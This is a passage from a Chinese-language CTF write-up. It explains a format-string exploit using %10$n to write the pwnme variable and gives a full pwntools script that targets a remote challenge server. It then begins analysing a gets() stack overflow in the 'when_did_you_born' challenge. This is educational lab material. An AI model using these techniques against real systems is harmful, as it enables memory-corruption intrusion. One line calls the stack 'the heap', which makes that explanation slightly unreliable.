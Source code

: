 那么，为什么是 8 呢？

![](https://vip1.loli.net/2019/12/27/Cmc7B8zRhT1I9X5.png)

程序会将 `%10$n` 之前字符的个数写入到指定内存中，因此前面我们构造八个字符即可。

这里除了 `p32(0x0804A068) + aaaa%10$n` 这种形式我们也可以使用 `p32(0x0804A068) + '%4c%10$n` 能同样的达到效果

```python
#!/usr/bin/env python

from pwn import *

proc = './4a0c08abff9d43ba8b65718a0edc7cc2'

context.binary = proc
context.log_level = 'debug'

if args.R:
    p = remote('111.198.29.45', 38981)
else:
    p = process(proc)

pwnme = 0x0804A068

p.sendlineafter(':', 'imlonghao')
p.sendlineafter(':', p32(pwnme) + '%4c%10$n')

p.interactive()
```

## when_did_you_born

> 只要知道你的年龄就能获得 flag，但菜鸡发现无论如何输入都不正确，怎么办

```
[*] '/ctf/work/adworld/when_did_you_born5/002de4a1cad84b0b8988bc3c42e1f007'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

拿到题目先看 checksec，开了 Canary，也开了 NX，<del>问题不大</del>。接下来看一下程序逻辑

![](https://vip1.loli.net/2019/12/27/KNf7CEOnziP5xaI.png)

可以在程序中看到 `gets(&v4)`，这就是本题的漏洞点了，`gets` 没有指定接受多少位，因此这里可以实现溢出。

接着我们来看 v4 和 v5 这两个变量在堆栈中的位置和长度

![](https://vip1.loli.net/2019/12/27/PBpChU5d2Z6xqLu.png)

可以知道 v4 的长度为 8 ，并且在内存中的地址比 v5 的高，堆从高地址向低地址生长，因此可以通过 v4 覆盖到 v5。
